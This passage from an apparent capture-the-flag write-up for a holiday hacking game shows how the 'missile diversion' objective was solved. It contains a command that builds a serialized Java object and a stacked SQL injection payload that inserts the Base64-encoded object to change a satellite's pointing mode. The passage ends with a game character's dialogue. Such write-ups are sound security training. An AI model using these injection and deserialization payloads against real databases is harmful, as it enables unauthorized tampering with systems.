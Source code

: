 Now we can update the ```pointing_mode```. Since it's current value is 0, 1 will probably point it at the sun instead of the earth.

```
java -jar Serialize-1.0-SNAPSHOT.jar "UPDATE pointing_mode SET numerical_mode=1;" true true
```

```
; INSERT satellite_query SET object=FROM_BASE64('rO0ABXNyAB9TYXRlbGxpdGVRdWVyeUZpbGVGb2xkZXJVdGlsaXR5EtT2jQ6zkssCAANaAAdpc1F1ZXJ5WgAIaXNVcGRhdGVMAA9wYXRoT3JTdGF0ZW1lbnR0ABJMamF2YS9sYW5nL1N0cmluZzt4cAEBdAApVVBEQVRFIHBvaW50aW5nX21vZGUgU0VUIG51bWVyaWNhbF9tb2RlPTE=')
```

Checking the ```Pointing Mode``` parameter shows that we were successful. The missile will now point towards the sun.

![Pointing Mode Set](../img/objectives/missile_diversion/pointing_mode_set.png)

!!! success "Answer"
    Use SQL injection and Java object serialization to alter the trajectory of the missile.

## Response

!!! quote "Wombley Cube"
    A... _missile..._ aimed for Santa's sleigh? I had no idea...<br>
    I can't believe I was manipulated like this. I've been trained to recognize these kinds of tactics!<br>
    Santa should never have put the holiday season at risk like he did, but I didn't know Jack's true intentions.<br>
    I'll help you bring Jack to justice...<br>
    But my mission to ensure Santa never again compromises the holidays is still in progress.<br>
    It sounded like the satellite crashed. Based on the coordinates, looks like the crash site is right near Rudolph's Rest.<br>
    Use the door to the right to return to the resort lobby and see what happened!<br>
    Don't worry, I'll meet you there... trust me.
